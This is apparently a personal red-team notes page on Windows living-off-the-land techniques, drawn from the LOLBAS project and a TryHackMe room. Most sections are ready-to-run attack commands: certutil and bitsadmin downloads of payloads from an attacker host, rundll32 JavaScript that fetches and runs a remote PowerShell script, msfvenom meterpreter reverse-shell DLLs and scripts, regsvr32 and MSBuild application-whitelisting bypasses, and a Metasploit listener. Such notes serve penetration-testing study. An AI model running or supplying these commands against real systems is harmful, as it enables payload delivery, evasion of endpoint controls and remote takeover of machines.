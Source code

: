 # Windows Living Off The Land

## Sysinternals

Due to the inherent trust Sysinternals has within the Operating system its use does get monitored by Blue Teams. See the [[Sysinternals-Hub]] for connecting links to all the tools eventually.

## LOLBAS
*"The goal of the [LOLBAS](https://lolbas-project.github.io/)  project is to document every binary, script, and library that can be used for Living Off The Land techniques. The phrase "Living off the land" was coined by Christopher Campbell (@obscuresec) & Matt Graeber (@mattifestation) at [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw).* The Site [LOLBAS](https://lolbas-project.github.io/) has search functionality for ease of use.

#### Criteria

A LOLBin/Lib/Script must:

-   Be a Microsoft-signed file, either native to the OS or downloaded from Microsoft.
-   Have extra "unexpected" functionality. It is not interesting to document intended use cases.
    -   Exceptions are application whitelisting bypasses
-   Have functionality that would be useful to an APT or red team

Interesting functionality can include:

-   Executing code
    -   Arbitrary code execution
    -   Pass-through execution of other programs (unsigned) or scripts (via a LOLBin)
-   Compiling code
-   File operations
    -   Downloading
    -   Upload
    -   Copy
-   Persistence
    -   Pass-through persistence utilizing existing LOLBin
    -   Persistence (e.g. hide data in ADS, execute at logon)
-   UAC bypass
-   Credential theft
-   Dumping process memory
-   Surveillance (e.g. keylogger, network trace)
-   Log evasion/modification
-   DLL side-loading/hijacking without being relocated elsewhere in the filesystem.

## File Operation

Certutil can download files and encode files. Certutil is a Windows built-in utility for handling certification service.
```powershell
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
certutil -encode payload.exe Encoded-payload.txt
certutil -decode Encoded_file payload.txt
```

Bitsadmin [BitsAdmin Documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer) 
```powershell
bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\<user>\Desktop\payload.exe
```

Use `findstr` insteading finding text and string patterns in files, find and download remote file from SMB shared folder 
```powershell
findstr /V dummystring \\MachineName\ShareFolder\test.exe > C:\Windows\Temp\test.exe
```


## File Execution

Windows has multiple system binaries that can execute others, MITRE [ATT&CK](https://attack.mitre.org/) called  framework, considers this technique as to be term as either Signed Binary Proxy Execution or Indirect Command Execution.

`explorer.exe` is the file manager and system component for Windows and can perform Indirect Command Execution.
```powershell
# Located
# C:\Windows\explorer.exe - Windows 32 bits version
# C:\Windows\SysWOW64\explorer.exe - Windows 64 bits version
explorer.exe /root,"C:\Windows\System32\cmd.exe"
```

Windows Management Instrumentation (`wmic.exe`) see [[WMI-Commands]] for more), perform [ATT&CK Technique](https://attack.mitre.org/techniques/) called Signed Binary Proxy Execution  
```powershell
wmic.exe process call create cmd
```

Rundll32 is a Microsoft built-in tool that loads and can run local [[Dynamic-Link-Library-Files]], thus run arbitrary payloads and execute JavaScript and PowerShell scripts. This is [ATT&CK Technique](https://attack.mitre.org/techniques/) called Signed Binary Proxy Execution.
```powershell
# Embedded eval() function
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"cmd\");window.close()");
```

```powershell
# run javascript: executing embedded powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```


## Bypassing Application Whitelisting 
Application Whitelisting is a rule-based (approved X.exe only) Microsoft endpoint security feature that prevents malicious and unauthorized programs from executing in real-time. Therefore [LOLBAS](https://lolbas-project.github.io/) are used to bypasses the whitelisting by being whitelisted.

[Regsvr32](https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/) is used by Windows to register dlls it can be used to execute arbituary binaries and bypass Whitelisting. According to [https://redcanary.com/](https://redcanary.com/) this the third most popular [ATT&CK Technique](https://attack.mitre.org/techniques/T1218/010/) used to execute native code or scripts locally or remotely **in memory**.
```powershell
# C:\Windows\System32\regsvr32.exe
# C:\Windows\SysWOW64\regsvr32.exe

# DLL reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 > live0fftheland.dll 
# Host and File transfer/Infiltrate it
c:\Windows\System32\regsvr32.exe c:\Users\<user>\Downloads\live0fftheland.dll
# OR
c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll
# /s - silent mode
# /n - do not call DLL register server
# /u - use another server instead as /n used
# /u - run with unregistered method
```


In 2016, Microsoft added support for the Linux environment on Windows 10,11, and Server 2019: Windows Subsystem for Linux ([WSL](https://docs.microsoft.com/en-us/windows/wsl/about)), and it exists in [two WSL versions](https://docs.microsoft.com/en-us/windows/wsl/compare-versions): WSL1 and WSL2. 
```powershell
bash.exe -c cmd.exe # "/path/to/payload!"
```

## No Powershell

[PowerLessShell](https://github.com/Mr-Un1k0d3r/PowerLessShell.git) *"Run PowerShell command without invoking powershell.exe"* It relies on MSBuild.exe to remotely execute PowerShell scripts and commands without spawning powershell.exe. You can also execute raw shellcode using the same approach.

```bash
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=$IP LPORT=4443 -f psh-reflection > liv0ff.ps1
# Listener
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost $IP;set lport 4443;exploit"
# Python2.. to convert the payload to be compatible 
python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj
```

On target build the `.csproj` file and wait for the reverse shell!
```powershell
c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\<user>\Desktop\liv0ff.csproj
```

## References
[LOLBAS](https://lolbas-project.github.io/)
[THM Room Living off the land](https://tryhackme.com/room/livingofftheland)
[BitsAdmin Documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer)
[WSL](https://docs.microsoft.com/en-us/windows/wsl/about)
[https://redcanary.com/](https://redcanary.com/) 
[ATT&CK](https://attack.mitre.org)